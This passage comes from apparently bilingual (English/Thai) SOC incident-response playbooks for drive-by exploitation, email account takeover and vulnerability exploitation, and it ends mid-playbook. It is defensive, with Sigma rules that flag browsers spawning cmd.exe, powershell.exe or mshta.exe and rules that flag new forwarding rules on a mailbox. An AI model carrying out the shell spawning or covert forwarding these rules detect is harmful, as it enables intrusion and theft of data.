| 4 | ตรวจ proxy logs: users อื่นที่เข้า URL เดียวกัน | SOC T2 |
| 5 | ส่ง payload ที่ download ไป sandbox | SOC T2 |
| 6 | ตรวจ browser และ plugin patch level | IT Team |

## 2. รายการตรวจสอบ

### วิเคราะห์ Browser/Endpoint
- [ ] Process tree: browser → child processes
- [ ] ไฟล์ที่ download ใน temp/downloads folders
- [ ] Browser history: URL chain ที่นำไปยัง exploit
- [ ] Network connections หลัง exploitation
- [ ] Scheduled tasks, services, หรือ registry ใหม่
- [ ] Memory dump สำหรับวิเคราะห์ exploit shellcode

### วิเคราะห์ Network/Proxy
- [ ] URL redirect chain เต็มจาก proxy logs
- [ ] DNS queries ไปยัง domains ผิดปกติ
- [ ] ข้อมูล certificate สำหรับ HTTPS connections
- [ ] ตรวจว่า URL อยู่ใน threat intel blocklists
- [ ] วิเคราะห์ JavaScript จาก exploit kit landing page

### ประเมินขอบเขต
- [ ] มี users กี่คนที่เข้า URL อันตรายเดียวกัน?
- [ ] มี endpoints อื่นที่ถูก exploit ด้วยหรือไม่?
- [ ] แหล่งที่มาเป็นเว็บปกติที่ถูก compromise หรือสร้างขึ้นมา?
- [ ] เป็นส่วนหนึ่งของ malvertising campaign หรือไม่?

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **Endpoint** | EDR isolation, เก็บสำหรับ forensics |
| **เครือข่าย** | Block domains/IPs ทั้งหมดใน redirect chain |
| **DNS** | Sinkhole exploit kit domains |
| **Proxy** | เพิ่ม URL category block สำหรับ exploit kits |
| **Browser** | บังคับอัปเดตเวอร์ชันล่าสุด |

## 4. การกำจัดและกู้คืน

1. Reimage endpoint ถ้ายืนยัน post-exploitation activity
2. บังคับอัปเดต browser ทั้งองค์กร
3. ปิด legacy plugins (Flash, Java, Silverlight)
4. Deploy browser isolation สำหรับการ browse ที่มีความเสี่ยง
5. อัปเดต proxy/DNS blocklists ด้วย IOCs ใหม่

## 5. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| Exploit อะไรถูกใช้ (CVE)? | [CVE number] |
| Browser patch เต็มหรือไม่? | [ใช่/ไม่] |
| Legacy plugins เปิดอยู่หรือไม่? | [รายการ] |
| User ถูกพาไปยังเว็บอันตรายอย่างไร? | [Malvertising/link/redirect] |

## 6. Detection Rules (Sigma)

```yaml
title: Browser Spawning Suspicious Child Process
logsource:
    product: windows
    category: process_creation
detection:
    selection_parent:
        ParentImage|endswith:
            - '\chrome.exe'
            - '\msedge.exe'
            - '\firefox.exe'
            - '\iexplore.exe'
    selection_child:
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\wscript.exe'
            - '\mshta.exe'
    condition: selection_parent and selection_child
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Watering Hole Playbook](Watering_Hole.th.md)
- [Malware Infection Playbook](Malware_Infection.th.md)
- [Exploit Playbook](Exploit.th.md)

## References
- [MITRE T1189 — Drive-by Compromise](https://attack.mitre.org/techniques/T1189/)
- [Trend Micro — Exploit Kit Overview](https://www.trendmicro.com/vinfo/us/security/definition/exploit-kit)


---

## File: 05_Incident_Response/Playbooks/Email_Account_Takeover.en.md

# Playbook: Email Account Takeover Response

**ID**: PB-42
**Severity**: High | **Category**: Collection / Impact
**MITRE ATT&CK**: [T1114](https://attack.mitre.org/techniques/T1114/) (Email Collection), [T1114.003](https://attack.mitre.org/techniques/T1114/003/) (Email Forwarding Rule)
**Trigger**: User report (suspicious sent emails), SIEM (new inbox rule), M365/Google alert (impossible travel login to mail), DLP (sensitive data forwarded)

> ⚠️ **CRITICAL**: Email account takeover enables BEC fraud, data exfiltration via forwarding rules, and supply chain attacks against contacts.

### Email Takeover Attack Flow

```mermaid
graph LR
    A["1️⃣ Credential Theft\nPhishing/spray"] --> B["2️⃣ Mailbox Login\nOWA/IMAP/API"]
    B --> C["3️⃣ Inbox Rules\nForward to external"]
    C --> D["4️⃣ Reconnaissance\nRead emails/contacts"]
    D --> E["5️⃣ BEC Attack\nImpersonate user"]
    E --> F["6️⃣ Financial Fraud\nWire transfer"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style E fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### Attacker Actions in Mailbox

```mermaid
graph TD
    Access["📧 Mailbox Access"] --> Rules["Create forwarding rules\nmailbox → external"]
    Access --> Read["Read sensitive emails\nfinancial, contracts"]
    Access --> Delete["Delete security alerts\nhide presence"]
    Access --> Send["Send phishing emails\nfrom trusted account"]
    Access --> Contacts["Harvest contact list\nfor future attacks"]
    Access --> OAuth["Create OAuth app\npersistent access"]
    style Access fill:#ff6600,color:#fff
    style Rules fill:#cc0000,color:#fff
    style OAuth fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Email Anomaly Detected"] --> Type{"Alert type?"}
    Type -->|"New inbox rule"| Rule["Check rule: external forwarding?\nAuto-delete?"]
    Type -->|"Unusual login"| Login["GeoIP + device check\nMobile/OWA/IMAP?"]
    Type -->|"User report"| Report["User says 'emails I didn't send'\nor 'missing emails'"]
    Type -->|"OAuth app"| OAuth["New app with mail permissions?\nUnknown publisher?"]
    Rule --> Malicious{"Rule sends to external domain?"}
    Malicious -->|Yes| Contain["🔴 CONTAIN\nRemove rule + reset password"]
    Malicious -->|"No — Internal"| Review["Review rule purpose"]
    Login --> Known{"Known device/location?"}
    Known -->|No| Contain
    Known -->|Yes| Monitor["Monitor"]
    Report --> Contain
    OAuth --> Contain
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant Alert as Alert Source
    participant SOC as SOC Analyst
    participant M365 as M365/Google Admin
    participant User
    participant IR as IR Team

    Alert->>SOC: 🚨 Suspicious email activity
    SOC->>M365: Pull audit logs (sign-in + mailbox)
    M365->>SOC: Return login IPs, inbox rules, sent items
    SOC->>SOC: Identify unauthorized inbox rules
    SOC->>M365: Remove malicious rules immediately
    SOC->>User: Notify — account compromised
    SOC->>M365: Force password reset + revoke sessions
    SOC->>IR: Escalate — check for BEC fraud
    IR->>M365: Review sent/deleted items for damage
    IR->>SOC: Check contacts for ongoing phishing
```

### Email Rule Types to Monitor

```mermaid
graph TD
    subgraph "🔴 High Risk Rules"
        R1["Auto-forward to external email"]
        R2["Auto-delete specific emails"]
        R3["Move security alerts to Deleted"]
        R4["Forward invoices/payments"]
    end
    subgraph "🟡 Medium Risk Rules"
        R5["Forward to personal email"]
        R6["Auto-reply with OOO"]
        R7["Move emails to hidden folder"]
    end
    subgraph "🟢 Normal Rules"
        R8["Sort by sender to folders"]
        R9["Flag emails with keywords"]
        R10["Auto-categorize"]
    end
    style R1 fill:#cc0000,color:#fff
    style R2 fill:#cc0000,color:#fff
    style R4 fill:#cc0000,color:#fff
```

### Impact Assessment

```mermaid
graph TD
    Impact["Impact Assessment"] --> DataRead{"Sensitive emails read?"}
    DataRead -->|No| Low["🟢 Low\nCredential compromise only"]
    DataRead -->|Yes| Forward{"Data forwarded externally?"}
    Forward -->|No| Med["🟡 Medium\nData exposure risk"]
    Forward -->|Yes| BEC{"BEC fraud attempted?"}
    BEC -->|No| High["🟠 High\nData breach"]
    BEC -->|Yes| Money{"Money transferred?"}
    Money -->|No| VHigh["🔴 Critical\nBEC attempt blocked"]
    Money -->|Yes| Cat["💀 Financial Loss\nContact bank immediately"]
    style Impact fill:#333,color:#fff
    style Cat fill:#660000,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Email Account Takeover Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Alert received          :a1, 00:00, 5min
        Verify unauthorized     :a2, after a1, 10min
    section Containment
        Remove inbox rules      :a3, after a2, 5min
        Reset password & MFA    :a4, after a3, 10min
        Revoke OAuth apps       :a5, after a4, 10min
    section Investigation
        Audit mailbox activity  :a6, after a5, 60min
        Check sent/deleted      :a7, after a6, 30min
        Assess BEC risk         :a8, after a7, 60min
    section Recovery
        Notify affected parties :a9, after a8, 30min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Remove ALL suspicious inbox rules (forwarding, auto-delete) | M365/Google Admin |
| 2 | Reset user password immediately | IAM Team |
| 3 | Revoke all active sessions and tokens | M365/Google Admin |
| 4 | Revoke any unknown OAuth/app permissions | M365/Google Admin |
| 5 | Re-enroll MFA with a new device/method | IAM Team |
| 6 | Check Sent and Deleted Items for attacker actions | SOC T2 |

## 2. Investigation Checklist

### Mailbox Audit
- [ ] Sign-in logs: IP addresses, devices, locations, timestamps
- [ ] Inbox rules created/modified: forwarding destinations
- [ ] Sent Items: emails sent by attacker (phishing, BEC)
- [ ] Deleted Items: security alerts or evidence deleted
- [ ] OAuth/App permissions: unknown apps with mail.read scope
- [ ] Delegate access: other users added as delegates

### BEC Assessment
- [ ] Were any financial instructions sent (wire transfer, invoice change)?
- [ ] Were vendor/partner communications impersonated?
- [ ] Did attacker monitor specific email threads (invoice, contract)?
- [ ] Were any contacts phished from this account?

### Data Exposure
- [ ] What sensitive emails were accessible?
- [ ] Were attachments downloaded?
- [ ] Were emails forwarded to external addresses?
- [ ] PDPA/regulatory notification requirements?

## 3. Containment

| Scope | Action |
|:---|:---|
| **Inbox rules** | Remove all forwarding/delete rules |
| **Password** | Force reset + MFA re-enrollment |
| **Sessions** | Revoke all active sessions/tokens |
| **OAuth** | Remove unknown app permissions |
| **Delegates** | Remove unauthorized delegate access |

## 4. Post-Incident

| Question | Answer |
|:---|:---|
| How were email credentials compromised? | [Phishing/spray/leak] |
| Were inbox rule alerts configured? | [Yes/No] |
| Was conditional access policy enforced? | [Status] |
| Were financial controls (dual approval) in place? | [Status] |

## 6. Detection Rules (Sigma)

```yaml
title: Suspicious Email Forwarding Rule Created
logsource:
    product: m365
    service: exchange
detection:
    selection:
        Operation: 'New-InboxRule'
        Parameters|contains:
            - 'ForwardTo'
            - 'RedirectTo'
            - 'ForwardAsAttachmentTo'
    condition: selection
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [BEC Playbook](BEC.en.md)
- [Account Compromise Playbook](Account_Compromise.en.md)
- [Phishing Playbook](Phishing.en.md)
- [MFA Bypass Playbook](MFA_Bypass.en.md)

## References
- [MITRE T1114 — Email Collection](https://attack.mitre.org/techniques/T1114/)
- [Microsoft — Detect Email Compromise](https://learn.microsoft.com/en-us/microsoft-365/security/)


---

## File: 05_Incident_Response/Playbooks/Email_Account_Takeover.th.md

# Playbook: การตอบสนอง Email Account Takeover

**ID**: PB-42
**ความรุนแรง**: สูง | **ประเภท**: Collection / Impact
**MITRE ATT&CK**: [T1114](https://attack.mitre.org/techniques/T1114/) (Email Collection), [T1114.003](https://attack.mitre.org/techniques/T1114/003/) (Email Forwarding Rule)
**Trigger**: User รายงาน (อีเมลที่ไม่ได้ส่ง), SIEM (inbox rule ใหม่), M365/Google alert (impossible travel login ไปยัง mail), DLP (ข้อมูลสำคัญถูก forward)

> ⚠️ **วิกฤต**: Email account takeover เปิดทาง BEC fraud, ขโมยข้อมูลผ่าน forwarding rules, และโจมตี supply chain ผ่าน contacts

### Email Takeover Attack Flow

```mermaid
graph LR
    A["1️⃣ ขโมย Credential\nPhishing/spray"] --> B["2️⃣ Login Mailbox\nOWA/IMAP/API"]
    B --> C["3️⃣ สร้าง Inbox Rules\nForward ไปยังภายนอก"]
    C --> D["4️⃣ สำรวจ\nอ่าน emails/contacts"]
    D --> E["5️⃣ BEC Attack\nปลอมเป็น user"]
    E --> F["6️⃣ ฉ้อโกงเงิน\nWire transfer"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style E fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### กิจกรรมของผู้โจมตีใน Mailbox

```mermaid
graph TD
    Access["📧 Mailbox Access"] --> Rules["สร้าง forwarding rules\nmailbox → ภายนอก"]
    Access --> Read["อ่านอีเมลสำคัญ\nการเงิน, สัญญา"]
    Access --> Delete["ลบ security alerts\nซ่อนตัว"]
    Access --> Send["ส่งอีเมล phishing\nจากบัญชีที่เชื่อถือ"]
    Access --> Contacts["เก็บ contact list\nสำหรับการโจมตีต่อไป"]
    Access --> OAuth["สร้าง OAuth app\npersistent access"]
    style Access fill:#ff6600,color:#fff
    style Rules fill:#cc0000,color:#fff
    style OAuth fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 ตรวจพบ Email Anomaly"] --> Type{"ประเภท alert?"}
    Type -->|"Inbox rule ใหม่"| Rule["ตรวจ rule: forward ภายนอก?\nAuto-delete?"]
    Type -->|"Login ผิดปกติ"| Login["GeoIP + ตรวจอุปกรณ์\nMobile/OWA/IMAP?"]
    Type -->|"User รายงาน"| Report["User บอก 'อีเมลที่ไม่ได้ส่ง'\nหรือ 'อีเมลหายไป'"]
    Type -->|"OAuth app"| OAuth["App ใหม่มีสิทธิ์ mail?\nPublisher ไม่รู้จัก?"]
    Rule --> Malicious{"Rule ส่งไปยัง domain ภายนอก?"}
    Malicious -->|ใช่| Contain["🔴 CONTAIN\nลบ rule + reset password"]
    Malicious -->|"ไม่ — ภายใน"| Review["ตรวจวัตถุประสงค์ rule"]
    Login --> Known{"อุปกรณ์/ตำแหน่งที่รู้จัก?"}
    Known -->|ไม่| Contain
    Known -->|ใช่| Monitor["ตรวจติดตาม"]
    Report --> Contain
    OAuth --> Contain
    style Alert fill:#ff6600,color:#fff
    style Contain fill:#cc0000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant Alert as Alert Source
    participant SOC as SOC Analyst
    participant M365 as M365/Google Admin
    participant User
    participant IR as IR Team

    Alert->>SOC: 🚨 กิจกรรม email ผิดปกติ
    SOC->>M365: ดึง audit logs (sign-in + mailbox)
    M365->>SOC: ส่ง login IPs, inbox rules, sent items
    SOC->>SOC: ระบุ inbox rules ที่ไม่ได้รับอนุญาต
    SOC->>M365: ลบ rules อันตรายทันที
    SOC->>User: แจ้ง — บัญชีถูกโจมตี
    SOC->>M365: บังคับ reset password + revoke sessions
    SOC->>IR: Escalate — ตรวจ BEC fraud
    IR->>M365: ตรวจ sent/deleted items สำหรับความเสียหาย
    IR->>SOC: ตรวจ contacts สำหรับ phishing ต่อเนื่อง
```

### ประเภท Email Rules ที่ต้องจับตา

```mermaid
graph TD
    subgraph "🔴 ความเสี่ยงสูง"
        R1["Auto-forward ไปอีเมลภายนอก"]
        R2["Auto-delete อีเมลบางประเภท"]
        R3["ย้าย security alerts ไป Deleted"]
        R4["Forward invoices/payments"]
    end
    subgraph "🟡 ความเสี่ยงปานกลาง"
        R5["Forward ไปอีเมลส่วนตัว"]
        R6["Auto-reply OOO"]
        R7["ย้ายอีเมลไป hidden folder"]
    end
    subgraph "🟢 ปกติ"
        R8["จัดตาม sender เข้า folders"]
        R9["Flag อีเมลที่มี keywords"]
        R10["Auto-categorize"]
    end
    style R1 fill:#cc0000,color:#fff
    style R2 fill:#cc0000,color:#fff
    style R4 fill:#cc0000,color:#fff
```

### การประเมินผลกระทบ

```mermaid
graph TD
    Impact["ประเมินผลกระทบ"] --> DataRead{"อ่านอีเมลสำคัญ?"}
    DataRead -->|ไม่| Low["🟢 ต่ำ\nCredential compromise เท่านั้น"]
    DataRead -->|ใช่| Forward{"ข้อมูลถูก forward ออก?"}
    Forward -->|ไม่| Med["🟡 ปานกลาง\nความเสี่ยงข้อมูลถูกเปิดเผย"]
    Forward -->|ใช่| BEC{"พยายาม BEC fraud?"}
    BEC -->|ไม่| High["🟠 สูง\nData breach"]
    BEC -->|ใช่| Money{"โอนเงินแล้ว?"}
    Money -->|ไม่| VHigh["🔴 วิกฤต\nBEC attempt ถูก block"]
    Money -->|ใช่| Cat["💀 สูญเสียเงิน\nติดต่อธนาคารทันที"]
    style Impact fill:#333,color:#fff
    style Cat fill:#660000,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Email Account Takeover Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        ได้รับ alert             :a1, 00:00, 5min
        ยืนยันไม่ได้รับอนุญาต   :a2, after a1, 10min
    section Containment
        ลบ inbox rules          :a3, after a2, 5min
        Reset password & MFA    :a4, after a3, 10min
        Revoke OAuth apps       :a5, after a4, 10min
    section Investigation
        Audit mailbox activity  :a6, after a5, 60min
        ตรวจ sent/deleted       :a7, after a6, 30min
        ประเมิน BEC risk        :a8, after a7, 60min
    section Recovery
        แจ้งผู้ที่ได้รับผลกระทบ  :a9, after a8, 30min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | ลบ inbox rules ที่น่าสงสัยทั้งหมด (forwarding, auto-delete) | M365/Google Admin |
| 2 | Reset password ทันที | IAM Team |
| 3 | Revoke active sessions และ tokens ทั้งหมด | M365/Google Admin |
| 4 | Revoke OAuth/app permissions ที่ไม่รู้จัก | M365/Google Admin |
| 5 | Enroll MFA ใหม่ด้วยอุปกรณ์/วิธีใหม่ | IAM Team |
| 6 | ตรวจ Sent และ Deleted Items สำหรับกิจกรรมของผู้โจมตี | SOC T2 |

## 2. รายการตรวจสอบ

### Mailbox Audit
- [ ] Sign-in logs: IP addresses, อุปกรณ์, ตำแหน่ง, timestamps
- [ ] Inbox rules สร้าง/แก้ไข: forwarding destinations
- [ ] Sent Items: อีเมลที่ผู้โจมตีส่ง (phishing, BEC)
- [ ] Deleted Items: security alerts หรือหลักฐานที่ลบ
- [ ] OAuth/App permissions: apps ไม่รู้จักที่มี mail.read scope
- [ ] Delegate access: users อื่นที่เพิ่มเป็น delegates

### การประเมิน BEC
- [ ] มีคำสั่งทางการเงินถูกส่งหรือไม่ (wire transfer, invoice change)?
- [ ] มีการปลอมเป็น vendor/partner หรือไม่?
- [ ] ผู้โจมตีติดตาม email threads เฉพาะ (invoice, contract) หรือไม่?
- [ ] มี contacts ถูก phish จากบัญชีนี้หรือไม่?

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **Inbox rules** | ลบ forwarding/delete rules ทั้งหมด |
| **Password** | บังคับ reset + MFA re-enrollment |
| **Sessions** | Revoke active sessions/tokens ทั้งหมด |
| **OAuth** | ลบ app permissions ที่ไม่รู้จัก |
| **Delegates** | ลบ delegate access ที่ไม่ได้รับอนุญาต |

### การยืนยันการกู้คืน
- [ ] ยืนยันว่า inbox rules ที่เป็นอันตรายถูกลบ
- [ ] ยืนยัน OAuth apps ที่ไม่ได้รับอนุญาตถูกเพิกถอน
- [ ] ตรวจ login history 7 วันหลังกู้คืน
- [ ] ยืนยัน MFA ทำงานบนทุกช่องทาง
- [ ] แจ้งผู้ติดต่อภายนอกเรื่อง compromise ถ้าจำเป็น

## 4. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| Email credentials ถูกโจมตีอย่างไร? | [Phishing/spray/leak] |
| Inbox rule alerts กำหนดค่าอยู่หรือไม่? | [ใช่/ไม่] |
| Conditional access policy บังคับใช้อยู่หรือไม่? | [สถานะ] |
| มี financial controls (dual approval) หรือไม่? | [สถานะ] |

## 6. Detection Rules (Sigma)

```yaml
title: Suspicious Email Forwarding Rule Created
logsource:
    product: m365
    service: exchange
detection:
    selection:
        Operation: 'New-InboxRule'
        Parameters|contains:
            - 'ForwardTo'
            - 'RedirectTo'
            - 'ForwardAsAttachmentTo'
    condition: selection
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [BEC Playbook](BEC.th.md)
- [Account Compromise Playbook](Account_Compromise.th.md)
- [Phishing Playbook](Phishing.th.md)
- [MFA Bypass Playbook](MFA_Bypass.th.md)

## References
- [MITRE T1114 — Email Collection](https://attack.mitre.org/techniques/T1114/)
- [Microsoft — Detect Email Compromise](https://learn.microsoft.com/en-us/microsoft-365/security/)


---

## File: 05_Incident_Response/Playbooks/Exploit.en.md

# Playbook: Vulnerability Exploitation

**ID**: PB-18
**Severity**: High/Critical | **Category**: Vulnerability Management
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application), [T1203](https://attack.mitre.org/techniques/T1203/) (Exploitation for Client Execution)
**Trigger**: IDS/IPS alert, EDR detection, vulnerability scan, TI advisory, WAF block

### Exploit Lifecycle

```mermaid
graph LR
    Disc["🔍 Vuln Discovered"] --> PoC["💻 Public PoC"]
    PoC --> Wild["🌐 In-the-Wild"]
    Wild --> Patch["🩹 Vendor Patch"]
    Patch --> Apply["✅ Patch Applied"]
    style Disc fill:#3498db,color:#fff
    style Wild fill:#e74c3c,color:#fff
    style Apply fill:#27ae60,color:#fff
```

### Virtual Patching Flow

```mermaid
sequenceDiagram
    participant SOC
    participant WAF
    participant Dev as Dev Team
    SOC->>WAF: Create virtual patch rule
    WAF-->>SOC: ✅ Rule active
    SOC->>Dev: Notify vulnerability + CVE
    Dev->>Dev: Fix source code
    Dev->>SOC: Deployed fix
    SOC->>WAF: Remove virtual patch
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Exploit Attempt Detected"] --> CVE["🔍 Identify CVE"]
    CVE --> Vuln{"🎯 Is Target Vulnerable?"}
    Vuln -->|Patched / Not Affected| Attempt["🟡 Blocked Attempt"]
    Vuln -->|Vulnerable| Response{"📊 Exploit Successful?"}
    Response -->|200 OK / Shell / Payload| Success["🔴 Successful Exploitation"]
    Response -->|Blocked (403/Drop)| Attempt
    Response -->|Error (500)| Partial["🟠 Investigate Further"]
    Attempt --> Block["🚫 Block Attacker IP"]
    Success --> Type{"💥 Exploit Impact?"}
    Type -->|RCE| RCE["🚨 Isolate + Major Response"]
    Type -->|Info Disclosure| Info["🛡️ Block + Patch"]
    Type -->|DoS| DoS["⚙️ Mitigate + Patch"]
    Partial --> Type
    RCE --> FullIR["Full Incident Response"]
```

---

## 1. Analysis

### 1.1 CVE / Vulnerability Identification

| Check | How | Done |
|:---|:---|:---:|
| Identify CVE number from alert/signature | IPS/IDS/WAF | ☐ |
| Check CVSS score and severity | NVD, vendor advisory | ☐ |
| Is it in CISA KEV (Known Exploited Vulnerabilities)? | [CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) | ☐ |
| Is public PoC exploit available? | GitHub, ExploitDB | ☐ |
| Check if active exploitation in the wild | TI feeds, advisories | ☐ |

### 1.2 Target Assessment

| Check | How | Done |
|:---|:---|:---:|
| Is the target system affected? (version/config) | CMDB, vulnerability scanner | ☐ |
| Is the vulnerable service exposed externally? | Firewall rules, Shodan | ☐ |
| What is the asset criticality? | CMDB, business context | ☐ |
| Is the target already patched? | Patch management system | ☐ |
| Were compensating controls in place? (WAF, segmentation) | Security architecture | ☐ |

### 1.3 Exploitation Evidence

| Evidence | What to Look For | Done |
|:---|:---|:---:|
| Network payload | Exploit signature in IPS/IDS logs | ☐ |
| Server response | Success indicators (reverse shell, data leak) | ☐ |
| Process creation | New processes spawned after exploit | ☐ |
| File creation | Web shells, payloads dropped to disk | ☐ |
| Outbound connections | C2 callbacks from exploited server | ☐ |
| Post-exploitation | Credential dumping, lateral movement | ☐ |

---

## 2. Containment

### 2.1 Exploit Attempt (Blocked)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | Block attacker IP | Firewall | ☐ |
| 2 | Update IPS/WAF signatures | IPS / WAF | ☐ |
| 3 | Alert vulnerability management to prioritize patching | Ticket | ☐ |

### 2.2 Successful Exploitation

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Isolate exploited system** immediately | EDR / Firewall | ☐ |
| 2 | Block attacker IP and any C2 indicators | Firewall | ☐ |
| 3 | **Apply virtual patch** at WAF/IPS | WAF / IPS | ☐ |
| 4 | Disable vulnerable service if possible | System admin | ☐ |
| 5 | Capture memory dump and disk image | Forensics | ☐ |
| 6 | Check for lateral movement from exploited host | [PB-12](Lateral_Movement.en.md) | ☐ |

### 2.3 Zero-Day (No Patch Available)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Apply workaround from vendor advisory (disable feature, config change) | ☐ |
| 2 | Deploy custom WAF/IPS rule for exploit pattern | ☐ |
| 3 | Segment affected systems from network | ☐ |
| 4 | Enable enhanced monitoring / logging | ☐ |
| 5 | Report to vendor and request emergency patch | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | **Apply official patch** from vendor | ☐ |
| 2 | Remove any web shells, backdoors, or dropped payloads | ☐ |
| 3 | Reset credentials on the exploited system | ☐ |
| 4 | Scan for other vulnerable instances in environment | ☐ |
| 5 | Check for persistence mechanisms installed by attacker | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Run vulnerability scan to confirm patch applied | ☐ |
| 2 | Test application functionality after patching | ☐ |
| 3 | Reconnect system to network in stages | ☐ |
| 4 | Monitor for re-exploitation attempts for 72 hours | ☐ |
| 5 | Update asset inventory with patch status | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| CVE Number | | IPS / Advisory |
| Attacker IP | | Firewall / IPS |
| Exploit Payload | | IPS / WAF logs |
| Target System | | Alert |
| Dropped Files (hash) | | EDR / Forensics |
| C2 Indicators | | Network logs |
| Post-exploitation Tools | | EDR |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| RCE with confirmed shell | CISO + Major Incident |
| Zero-day (no patch available) | CISO + Vendor + CERT |
| Critical infrastructure (DB, DC) exploited | CISO immediately |
| CISA KEV vulnerability actively exploited | Vulnerability Management + SOC Lead |
| Multiple systems exploited | Major Incident |
| Data breach through exploitation | [PB-08](Data_Exfiltration.en.md) + Legal |

---

### Exploit Severity Classification

```mermaid
graph TD
    Vuln["🔓 Vulnerability"] --> CVSS{"📊 CVSS?"}
    CVSS -->|9.0+| Critical["🔴 Critical — patch 24h"]
    CVSS -->|7.0-8.9| High["🟠 High — patch 7d"]
    CVSS -->|4.0-6.9| Medium["🟡 Medium — patch 30d"]
    CVSS -->|Under 4.0| Low["🟢 Low — next cycle"]
    Critical --> Weaponized{"⚔️ Weaponized?"}
    Weaponized -->|Yes| Emergency["🚨 Emergency patch NOW"]
    Weaponized -->|No| Critical
    style Emergency fill:#c0392b,color:#fff
    style Critical fill:#e74c3c,color:#fff
```

### Virtual Patching Architecture

```mermaid
graph LR
    Traffic["🌐 Traffic"] --> WAF["🛡️ WAF"]
    WAF --> VPatch["📋 Virtual Patch Rule"]
    VPatch -->|Match| Block["❌ Block"]
    VPatch -->|No match| App["📱 App"]
    App --> IPS["🔍 IPS"]
    IPS -->|Signature| Alert["🚨 Alert"]
    style WAF fill:#27ae60,color:#fff
    style Block fill:#e74c3c,color:#fff
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| WAF Detected Exploit Attempt | [web_waf_exploit.yml](../../08_Detection_Engineering/sigma_rules/web_waf_exploit.yml) |
| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-10 Web Attack](Web_Attack.en.md)
- [PB-12 Lateral Movement](Lateral_Movement.en.md)
- [PB-13 C2 Communication](C2_Communication.en.md)

## References

- [MITRE ATT&CK T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [CISA Known Exploited Vulnerabilities Catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [NVD — National Vulnerability Database](https://nvd.nist.gov/)


---

## File: 05_Incident_Response/Playbooks/Exploit.th.md

# Playbook: การใช้ช่องโหว่ (Exploit)

**ID**: PB-18
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: การโจมตีช่องโหว่
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing App), [T1203](https://attack.mitre.org/techniques/T1203/) (Exploitation for Client Execution)
**ทริกเกอร์**: IDS/IPS alert, EDR detection, vulnerability scan, TI advisory, WAF block


## หลังเหตุการณ์ (Post-Incident)

- [ ] Patch vulnerability ที่ถูกใช้โจมตี
- [ ] สแกนหา vulnerable systems อื่นๆ ด้วย vulnerability scanner
- [ ] อัพเดท IDS/IPS signatures
- [ ] ใช้ virtual patching ถ้ายังไม่สามารถ patch ได้
- [ ] ทบทวน patch management process
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง Exploit Timeline

```mermaid
graph LR
    Disc["🔍 ค้นพบช่องโหว่"] --> PoC["💻 PoC สาธารณะ"]
    PoC --> Wild["🌐 In-the-Wild"]
    Wild --> Patch["🩹 Vendor Patch"]
    Patch --> Apply["✅ Patch Applied"]
    style Disc fill:#3498db,color:#fff
    style Wild fill:#e74c3c,color:#fff
    style Apply fill:#27ae60,color:#fff
```

### ผังขั้นตอน Virtual Patching

```mermaid
sequenceDiagram
    participant SOC
    participant WAF
    participant Dev as Dev Team
    SOC->>WAF: สร้าง virtual patch rule
    WAF-->>SOC: ✅ Rule active
    SOC->>Dev: แจ้ง vulnerability + CVE
    Dev->>Dev: แก้ source code
    Dev->>SOC: Deploy fix แล้ว
    SOC->>WAF: ลบ virtual patch
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Exploit Alert"] --> Success{"💥 Exploit สำเร็จ?"}
    Success -->|ใช่| Impact{"📊 ผลกระทบ?"}
    Success -->|ไม่ (attempt)| Block["🔒 Block IP + Monitor"]
    Impact -->|RCE| Critical["🔴 Isolate ทันที"]
